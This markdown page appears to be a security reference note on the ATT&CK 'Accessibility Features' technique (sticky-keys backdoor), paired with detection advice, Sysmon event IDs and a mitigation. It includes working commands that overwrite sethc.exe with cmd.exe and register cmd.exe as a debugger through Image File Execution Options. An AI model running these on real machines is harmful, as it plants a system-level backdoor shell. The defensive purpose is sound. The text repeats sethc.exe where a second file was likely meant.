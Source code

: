 ﻿# T1015 - Accessibility Features

## Attributes

Tactic: Persistence, Privilege escalation
Effective Permissions: System
Data Sources: Windows Registry, File monitoring, Process monitoring

## Description

The attacker will try to replace an accessibility executable such as **C:\Windows\System32\sethc.exe** or **C:\Windows\System32\sethc.exe** with **cmd.exe**. Once the accessibility executable has been replaced the attacker can now bring command prompt up regardless of user access by pressing **shift 5 times** or pressing **Win + U**.

## Tools to Perform Attack

Windows command line using the **move** or **copy** command.

### Examples

```shell
move /Y %windir%\System32\cmd.exe %windir%\System32\sethc.exe
copy /y %windir%\System32\cmd.exe %windir%\System32\sethc.exe
```

An attacker might also attach cmd.exe as a debugger to these tools by using the windows registry.

```shell
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_executable}" /v "Debugger" /t REG_SZ /d "C:\windows\system32\cmd.exe" /f
```

### Other Accessibility Executables

|File|Description|
|-|-|
|**C:\Windows\System32\osk.exe**| On-Screen Keyboard |
|**C:\Windows\System32\Magnify.exe**| Magnifier |
|**C:\Windows\System32\Narrator.exe**| Narrator |
|**C:\Windows\System32\DisplaySwitch.exe**| Display Switcher |
|**C:\Windows\System32\AtBroker.exe**| App switcher |

## Detection

Compare the hashes of the accessibility executables. A powershell script is available in references.

Monitor the registry at
> HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options

### Example

> HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe

To search for this on kibana you would use the sysmon event ID 12/13/14 (Registry Events), with the context 
`HKLM\SOFTWARE\Microsoft\Windows\Windows NT\CurrentVersion\Image File Execution Options`

### Event IDs
Sysmon - Event ID 12 - Registry object added or deleted (rule: RegistryEvent)
`TargetObject: HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services`
Sysmon - Event ID 1 - Process Create (rule: ProcessCreate)
`ParentImage: utilman.exe /debug`

## Mitigation

Ensure that Network Level Authentication is enabled so that RDP users can't access the login screen without being logged in.

## References

- **Mitre article**
  - [https://attack.mitre.org/techniques/T1015/](https://attack.mitre.org/techniques/T1015/)

- **Atomic Red Team Article**
  - [https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1015/T1015.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1015/T1015.md)

- **Sticky-Keys scanner powershell script**
  - [https://github.com/TrullJ/sticky-keys-scanner/blob/master/TestFor-StickyKey.ps1](https://github.com/TrullJ/sticky-keys-scanner/blob/master/TestFor-StickyKey.ps1)

- **How to configure Network Level Authentication for RDP**
  - [https://www.darkoperator.com/blog/2012/3/17/configuring-network-level-authentication-for-rdp.html](https://www.darkoperator.com/blog/2012/3/17/configuring-network-level-authentication-for-rdp.html)
